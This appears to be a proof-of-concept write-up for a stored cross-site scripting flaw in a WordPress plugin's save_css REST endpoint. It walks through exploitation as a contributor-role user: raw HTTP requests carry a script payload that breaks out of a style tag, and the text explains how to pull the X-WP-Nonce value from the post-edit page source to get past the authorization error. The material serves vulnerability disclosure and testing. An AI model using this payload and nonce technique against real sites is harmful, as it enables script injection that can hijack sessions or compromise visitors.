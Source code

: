 Use a user with the **contributor** role to create any post and note its ID.

Send a **POST** request to `http://localhost/wp-json/woolentor/v1/save_css` with an XSS payload:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```

👉 The **X-WP-Nonce** header is missing for user authorization. Open the page source (<kbd>Ctrl</kbd>+<kbd>U</kbd>) of the post edit page:

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Search for `wpApiSettings` in the source and extract the `nonce` value.

![wpApiSettings](api_search.png "wpApiSettings")

Send the request including the **X-WP-Nonce** header with the obtained value:

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```
